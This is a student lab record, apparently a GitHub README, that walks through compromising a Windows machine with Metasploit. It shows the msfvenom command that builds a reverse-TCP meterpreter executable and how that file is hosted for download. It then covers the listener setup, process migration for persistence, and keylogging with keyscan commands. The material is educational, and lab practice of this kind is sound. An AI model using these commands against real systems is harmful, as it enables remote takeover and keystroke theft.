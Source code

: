 # Name:gajalakshmi V
# register number:21223040047
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![Screenshot 2024-04-30 183622](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/39502aad-dca6-4248-a316-e42b1db6dc9b)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![324934867-981dae79-a184-4fe7-97fb-f06c1390355c](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/e9629c1f-043a-4c19-abce-46776a4c9284)
copy the fun.exe into the apache /var/www/html folder
![324935670-dd0bc2d7-d144-42a9-a9a4-0fb8dc491ae1](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/bc1cf342-525f-4be8-9658-2b8b07ee56c2)

Start apache server sudo systemctl apache2 start
![324936143-9eb99679-ea0d-4ea0-97c0-f75407e31d23](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/f5095d00-4e6a-4091-a777-f373d54d3e28)
Check the status of apache2
![324937385-27b142a8-4e44-447e-bed2-77e48cf0babb](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/b3965983-7c91-4e02-8ac3-8dab2eaab369)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![324938559-cac71c8f-d77f-45fa-bb28-ee8ceaa8cf94](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/1058755e-09e4-4da5-ad0e-d5256c905b9b)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![324939056-ecd3b7e2-63d0-4e99-990d-95fbd3654662](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/5fbd184d-0989-4ca5-bd7a-c01fca7f7862)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![324939547-c4b4e30a-88d4-4397-b4aa-e9a3e2136f0f](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/4803c901-a47b-4642-959a-ce80334b1bcb)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![324940098-a9ce9410-a8f5-4a9d-974c-7d482492914f](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/ef266722-426e-4427-8150-3c079fd290ce)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![324940620-90eea5e9-aee0-4238-bc08-796d0a407cdc](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/d2ba1f44-93cc-412f-bf51-a1b658fcbad7)
keyscan_dump Shows the keystrokes captured so far
![324941533-a9863e2c-4d9a-4d10-b95a-ae69b44c3386](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/ba7e583d-f44e-4898-91f5-35cf1eb569ca)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
